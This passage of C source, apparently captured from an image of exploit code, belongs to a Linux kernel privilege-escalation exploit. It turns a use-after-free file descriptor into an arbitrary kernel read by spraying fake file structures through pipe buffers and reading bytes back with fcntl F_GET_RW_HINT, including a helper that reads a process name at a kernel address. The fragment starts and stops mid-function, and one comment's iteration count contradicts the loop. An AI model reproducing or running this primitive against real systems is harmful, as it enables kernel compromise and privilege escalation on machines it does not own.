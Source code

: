 ```c
        *(uint64_t *)&buf[0xe20] = target;
        *(uint64_t *)&buf[0xf20] = target;

        // Create the content
        write(g_pipe.fd[PIPE_WRITE], buf, 4096);

        // Read one byte back
        uint64_t arg = 0;
        if (fcntl(g_uaf_fd, F_GET_RW_HINT, &arg) == -1)
        {
            err("`fcntl()` failed");
        };

        // Add to val
        val |= (arg << (i * 8));
    }

    return val;
}

void read_comm_at(unsigned long addr, char *comm)
{
    // Set the inode address
    uint64_t inode_addr_base = addr - HINT_OFF;

    // Set up the buffer for the arbitrary read
    unsigned char buf[4096] = { 0 };

    // Iterate 15 times to read 15 bytes
    for (size_t i = 0; i < 8; i++)
    {
        // Calculate inode address
        uint64_t target = inode_addr_base + i;

        // Set up a fake file 16 times (number of files per page), we don't know
        // yet which of the 16 slots our UAF file is at
        reset_pipe_buf();
        *(uint64_t *)&buf[0x20]  = target;
        *(uint64_t *)&buf[0x120] = target;
        *(uint64_t *)&buf[0x220] = target;
        *(uint64_t *)&buf[0x320] = target;
        *(uint64_t *)&buf[0x420] = target;
        *(uint64_t *)&buf[0x520] = target;
        *(uint64_t *)&buf[0x620] = target;
        *(uint64_t *)&buf[0x720] = target;
        *(uint64_t *)&buf[0x820] = target;
        *(uint64_t *)&buf[0x920] = target;
        *(uint64_t *)&buf[0xa20] = target;
        *(uint64_t *)&buf[0xb20] = target;
        *(uint64_t *)&buf[0xc20] = target;
        *(uint64_t *)&buf[0xd20] = target;
        *(uint64_t *)&buf[0xe20] = target;
        *(uint64_t *)&buf[0xf20] = target;

        // Create the content
        write(g_pipe.fd[PIPE_WRITE], buf, 4096);

        // Read one byte back
        uint64_t arg = 0;
        if (fcntl(g_uaf_fd, F_GET_RW_HINT, &arg) == -1)
        {
            err("`fcntl()` failed");
        };
```